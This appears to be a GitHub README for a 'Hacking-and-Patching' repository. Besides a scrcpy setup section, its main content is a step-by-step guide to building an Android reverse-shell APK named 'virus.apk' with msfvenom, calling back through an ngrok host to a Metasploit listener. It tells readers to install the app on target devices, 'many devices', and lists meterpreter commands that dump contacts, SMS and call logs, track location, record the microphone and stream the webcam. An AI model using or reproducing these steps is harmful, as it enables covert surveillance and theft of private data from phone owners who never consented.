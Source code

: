 # LINUX GUIDE
# Hacking-and-Patching
The fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  # STEPS:
  1. Install scrcpy: use the command 'apt-get install scrcpy'
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type 'scrcpy' after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  # ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  1. download from link: https://ngrok.com/
  2. download the file and extract using 'sudo tar xvzf ngrok-stable-linux-amd64.tgz' in the directory where it was downloaded
  3. first sign-up to get an auth-token
  4. Then in your VM command line input: './ngrok authtoken <authtoken>'
  5. msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk 
  
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  
  6. We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  7. Run 'msfconsole'
  8. use exploit/multi/handler
  9. set payload android/meterpreter/reverse_tcp
  10. set LHOST 4.tcp.ngrok.io
  11. set LPORT 5544
  12. exploit 
  
  install the 'apk' on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run "background" command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
      Command                  Description
  1. app_list--	              Show all installed applications
  2. app_install--	          Request to install apk file
  3. app_run--	              Start an application
  4. app_uninstall--	        Request to uninstall application
  5. dump_contacts--	        Get all contacts and save in our PC
  6. dump_calllog--	          Get call log and save in our PC
  7. dump_sms--	              Get all sms and save in our PC
  8. send_sms--	              Send sms to any number
  9. geolocacte--	            Current lat and long of the device
  10. record_mic--	          Sound recorder
  11. webcam_list--           Available cameras
  12. webcam_snap 1/2/3--	    Take photo by selecting camera
  13. webcam_stream 1/2/3--	  Open specific camera and live streaming

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

